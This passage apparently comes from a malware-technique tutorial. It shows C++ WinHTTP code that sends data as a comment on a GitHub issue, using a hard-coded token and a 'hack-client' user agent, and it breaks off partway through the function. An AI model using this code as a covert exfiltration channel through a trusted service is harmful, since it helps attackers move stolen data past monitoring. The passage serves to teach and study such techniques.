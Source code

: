 So, first of all, define GitHub credentials and target repository details to our code:    

```cpp
#define GITHUB_TOKEN "github_classic_token_here" // your token here
#define REPO_OWNER "cocomelonc"
#define REPO_NAME "ejpt"
#define ISSUE_NUMBER "1" // issue num
```

Then, built a GitHub-specific URL to post a comment on an issue, added a `Bearer` token header using a GitHub personal access token and constructed the request body to match the GitHub API format for creating issue comments logic:     

```cpp
// send data to GitHub using winhttp
int sendToGitHub(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.github.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WCHAR url[256];
  swprintf(url, 256, L"/repos/%s/%s/issues/%s/comments", REPO_OWNER, REPO_NAME, ISSUE_NUMBER);
  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", url, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // construct the request body
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), "{\"body\": \"%s\"}", comment);

  // set the headers
  WCHAR headers[512];
  swprintf(headers, 512, L"Authorization: Bearer %s\r\nUser-Agent: hack-client\r\nContent-Type: application/json\r\n", GITHUB_TOKEN);

  if (!WinHttpSendRequest(hRequest, headers, -1, (LPVOID)json_body, strlen(json_body), strlen(json_body), 0)) {
    fprintf(stderr, "WinHttpSendRequest. error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  BOOL hResponse = WinHttpReceiveResponse(hRequest, NULL);
  if (!hResponse) {
    fprintf(stderr, "WinHttpReceiveResponse. error %d has occurred.\n", GetLastError());
```